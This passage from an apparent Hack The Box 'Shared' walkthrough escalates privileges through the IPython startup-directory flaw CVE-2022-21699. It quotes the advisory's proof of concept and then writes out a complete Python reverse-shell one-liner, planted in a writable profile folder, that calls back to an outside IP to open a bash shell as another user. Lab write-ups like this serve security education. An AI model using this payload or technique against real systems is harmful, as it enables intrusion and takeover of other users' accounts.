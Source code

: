 The ipython sounds strange to me. I made a quick Google search and checked the version installed in the machine:

```bash
james_mason@shared:/home$ /usr/bin/python3 /usr/local/bin/ipython  --version
8.0.0
```

Looking for privesc on that ipython, we could see the following [cybersecurity-help.cz](https://www.cybersecurity-help.cz/vdb/SB2022020212) page called _Privilege escalation in IPython_ (big shoutout to CZ CERT, they have such valuable information) with CVE-2022-21699. In the [iPython GitHub](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x) we can see the PoC:

From the PoC:

User1:
```bash
mkdir -m 777 /tmp/profile_default
mkdir -m 777 /tmp/profile_default/startup
echo 'print("stealing your private secrets")' > /tmp/profile_default/startup/foo.py
```

User2:
```bash
cd /tmp
ipython
```

User2 will see:
```
Python 3.9.7 (default, Oct 25 2021, 01:04:21)
Type 'copyright', 'credits' or 'license' for more information
IPython 7.29.0 -- An enhanced Interactive Python. Type '?' for help.
stealing your private secrets
```

We have rights to create files in that /opt/scripts_review/ folder, therefore, let's create a revshell:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/shared/4_2_perm.png" width="65%"/>
</p>


```bash
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.80",5454));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' 
  > /opt/scripts_review/profile_default/startup/foo.py
```
And we got the revshell as **dan_smith**, we can get the flag:
